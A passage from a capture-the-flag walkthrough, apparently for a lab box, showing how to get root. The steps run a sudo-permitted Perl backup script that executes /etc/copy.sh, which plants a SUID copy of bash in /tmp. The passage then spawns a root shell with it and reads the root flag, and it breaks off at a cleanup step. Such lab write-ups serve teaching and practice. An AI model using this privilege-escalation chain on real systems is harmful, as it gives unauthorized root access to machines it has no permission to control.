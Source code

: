 **Note:** If `sudo tee` works, you have successfully written the payload to `/etc/copy.sh`.

If `sudo tee` does **not** work, you must rely on the fact that `backup.pl` is run as root and may source a copy of `/etc/copy.sh` from a location you can write — check `backup.pl` content to see if it will create `/etc/copy.sh` from a file in `/home/itguy` or from STDIN. If the script reads or copies files from a location you can write, create the file there and let `backup.pl` copy it when executed as root.


## 16) Execute the backup script as root (this will run `/etc/copy.sh`)

Now run the permitted command as root using sudo:

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

**What happens:** the `backup.pl` script runs as root and will execute `/etc/copy.sh` as part of its process. Because `/etc/copy.sh` contains commands to copy `/bin/bash` to `/tmp/rootbash` and set the SUID bit, after it runs `/tmp/rootbash` will be owned by root and have the SUID bit set.



## 17) Verify and get a root shell

List `/tmp` to confirm `rootbash` exists:

```bash
ls -la /tmp/rootbash
```

You should see something like `-rwsr-xr-x 1 root root ... /tmp/rootbash` — note the `s` in the owner position (SUID).

Run it with `-p` to preserve privileges and get a root shell:

```bash
/tmp/rootbash -p
```

Now confirm:

```bash
whoami
# should print: root
```


## 18) Read the root flag

Now you can read the root flag:

```bash
cat /root/root.txt
```

Save the flag - that's your second (root) flag and the box is complete.

## 19) Clean up (optional, if allowed)
